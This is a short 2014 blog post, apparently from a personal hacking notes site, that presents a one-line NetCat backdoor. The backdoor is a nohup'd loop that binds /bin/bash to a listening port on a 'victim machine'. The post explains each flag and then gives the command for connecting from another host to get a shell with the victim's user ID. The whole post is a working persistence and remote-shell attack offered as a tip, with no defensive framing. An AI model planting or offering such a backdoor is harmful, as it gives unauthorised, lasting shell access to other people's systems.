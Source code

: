 Title: [Hack] Simple Backdoor by NetCat
Date: 2014-07-06 11:03
Author: m157q
Category: Hack
Tags: hack, NetCat, nc, Backdoor
Slug: hack-simple-backdoor-by-netcat

`nohup bash -c 'while true; do nc -l -e /bin/bash -p $port; done' &`  
  
+ **nohup** makes this backdoor immune to SIGHUP  
+ **bash -c $string** will run the string as command  
+ **nc -l** let nc keep listening on the port  
+ **nc -e $sth** means excute $sth after connected  
+ **nc -p** to choose a port for nc to listen  
+ **$port** is the backdoor port set on the victim machine. You can change it to a port number whatever you like.  
+ use shell scripting **while** for keeping listening  
    
After run the command above on the victim machine, you can just type  
    
`nc $victim_ip $port`  
    
to connect to the victim machine and get a bash shell as the same uid which ran the command.  
    
    
    
    
    